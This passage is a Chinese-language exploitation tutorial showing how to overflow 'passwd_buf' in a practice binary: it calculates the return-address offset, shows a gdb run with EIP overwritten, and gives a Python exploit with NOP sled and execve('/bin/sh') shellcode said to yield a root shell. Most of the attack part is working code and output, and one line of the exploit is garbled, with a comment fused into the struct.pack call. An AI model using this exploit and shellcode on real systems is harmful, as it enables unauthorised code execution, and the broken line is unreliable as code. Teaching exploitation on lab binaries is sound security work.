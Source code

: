 在这里我们来找找缓冲区‘passed_buf’中返回地址的偏移处于什么位置。之前我们已经反汇编并画出了validate_passwd()的堆栈布局，那么现在就试着找出代码的偏移位置信息吧！由堆栈布局可以看出，返回地址位于缓冲区‘passwd_buf’的偏移(0x18)处。(0x18)计算方式如下：  

0X03 0x18 = 0xb + 0x1 + 0x4 + 0x4 + 0x4  
其中：

0xb 是 ‘passwd_buf’ 大小  
0x1 是 ‘passwd_len’ 大小  
0x4 是 对齐空间  
0x4 是 EDI  
0x4 是调用者的EBP  
这样一来，用户输入 “A” 24 + “B” 4 + “C” * 233，就能以一串“A”覆盖passwd_buf, passwd_len, 对齐空间和调用者的EBP，以“BBBB”覆盖返回地址，以一串C覆盖剩余空间。  

``` 
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/iof/vuln...(no debugging symbols found)...done.
(gdb) r sploitfun `python -c 'print "A"*24 + "B"*4 + "C"*233'`
Starting program: /home/sploitfun/lsploits/iof/vuln sploitfun `python -c 'print "A"*24 + "B"*4 + "C"*233'`
Valid Password
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```
上述输出结果表明攻击者已然获得返回地址的控制权限。存储于栈(0xbffff1fc)中的返回地址已被“BBBB”覆盖。掌握了以上信息，我们就可以写出能实现任意代码执行的漏洞利用代码了。  

漏洞利用代码：  

``` python
#exp.py 
#!/usr/bin/env python
import struct
from subprocess import call
arg1 = "sploitfun"
#Stack address where shellcode is copied.
ret_addr = 0xbffff274
#Spawn a shell
#execve(/bin/sh)
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
#endianess convertion
def conv(num):
 return struct.pack("<I",numunk + RA + NOP's + Shellcode
arg2 = "A" * 24
arg2 += conv(ret_addr);
arg2 += "\x90" * 100
arg2 += scode
arg2 += "C" * 108
print "Calling vulnerable program"
call(["./vuln", arg1, arg2])
``` 
执行上述漏洞利用程序可以获取root shell，如下所示  
